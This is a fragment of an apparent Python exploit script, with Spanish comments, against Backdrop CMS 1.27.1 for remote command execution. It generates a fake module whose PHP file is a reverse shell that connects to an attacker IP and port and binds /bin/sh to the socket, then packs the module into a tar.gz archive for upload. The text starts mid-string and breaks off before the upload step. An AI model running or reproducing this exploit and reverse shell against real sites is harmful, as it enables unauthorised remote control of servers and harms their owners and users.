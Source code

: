 ```python
    configure = admin/structure/block

    ; Added by Backdrop CMS packaging script on 2024-03-07
    project = backdrop
    version = 1.27.1
    timestamp = 1709862662
    """
    shell_info_path = "shell/shell.info"
    os.makedirs(os.path.dirname(shell_info_path), exist_ok=True)  # Crea la carpeta si no existe
    with open(shell_info_path, "w") as file:
        file.write(info_content)

    # Contenido del archivo .php (shell reversa)
    shell_content = """
    <?php
    $ip = '10.10.10.10';  // Cambia por tu IP
    $port = 4444;          // Cambia por tu puerto

    // Abre un socket al atacante
    $sock = fsockopen($ip, $port, $errno, $errstr, 30);
    if (!$sock) {
        die("Failed to connect: $errstr ($errno)");
    }

    // Redirige la shell al socket
    $descriptorspec = array(
        0 => $sock,  // stdin
        1 => $sock,  // stdout
        2 => $sock   // stderr
    );

    $process = proc_open('/bin/sh -i', $descriptorspec, $pipes);
    if (!is_resource($process)) {
        die("Failed to spawn shell");
    }

    // Espera a que el proceso termine
    proc_close($process);
    ?>
    """
    shell_php_path = "shell/shell.php"
    with open(shell_php_path, "w") as file:
        file.write(shell_content)
    return shell_info_path, shell_php_path

def create_tar_gz(info_path, php_path):
    # Nombre del archivo .tar.gz
    tar_filename = "shell.tar.gz"
    with tarfile.open(tar_filename, "w:gz") as tar:
        tar.add(info_path, arcname='shell/shell.info')
        tar.add(php_path, arcname='shell/shell.php')
    return tar_filename

def main(url):
    print("Backdrop CMS 1.27.1 - Remote Command Execution Exploit")
    time.sleep(3)

    print("Generando módulo malicioso...")
    time.sleep(2)

    info_path, php_path = create_files()
    tar_filename = create_tar_gz(info_path, php_path)

```